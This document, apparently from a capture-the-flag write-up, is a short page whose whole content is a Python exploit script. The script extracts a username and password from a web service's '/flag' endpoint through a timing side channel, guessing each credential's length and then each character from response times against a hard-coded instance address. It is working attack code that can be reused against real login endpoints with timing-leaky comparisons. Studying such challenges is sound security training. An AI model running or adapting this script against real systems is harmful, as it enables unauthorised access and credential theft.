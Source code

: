 
## Exploit Script

```
import requests
import string

# Replace with your instance target.
target = "157.245.52.169:31121"

userlen = 0
currHigh = 0.0
for i in range(0, 20):
    val = ("A" * i)
    r = requests.get(f"http://{target}/flag?username={val}&password=111")
    if currHigh < r.elapsed.total_seconds():
        currHigh = r.elapsed.total_seconds()
        userlen = i
    print(i,r.elapsed.total_seconds())

username = ""
for idx in range(len(username), userlen):
    highestTimeChar = ""
    currHigh = 0.0
    for i in string.ascii_letters + string.digits:
        padding = (userlen - idx - 1) * "A"
        url = f"http://{target}/flag?username={username}{i}{padding}&password=111"
        r = requests.get(url)
        if currHigh < r.elapsed.total_seconds():
            currHigh = r.elapsed.total_seconds()
            highestTimeChar = i
        print(url, i,r.elapsed.total_seconds())
    username += highestTimeChar

print("Username is " + username)

passlen = 0
currHigh = 0.0
for i in range(0, 30):
    val = ("A" * i)
    r = requests.get(f"http://{target}/flag?username={username}&password={val}")
    if currHigh < r.elapsed.total_seconds():
        currHigh = r.elapsed.total_seconds()
        passlen = i
    print(i,r.elapsed.total_seconds())

password = ""
for idx in range(len(password), passlen):
    highestTimeChar = ""
    currHigh = 0.0
    for i in string.ascii_letters + string.digits:# range(32, 126):
        padding = (passlen - idx - 1) * "A"
        url = f"http://{target}/flag?username={username}&password={password}{i}{padding}"
        r = requests.get(url)
        if currHigh < r.elapsed.total_seconds():
            currHigh = r.elapsed.total_seconds()
            highestTimeChar = i
        print(url, i,r.elapsed.total_seconds())
    password += highestTimeChar

print("Password is " + password)

print("Final Credentials")
print(username + ":" + password)
```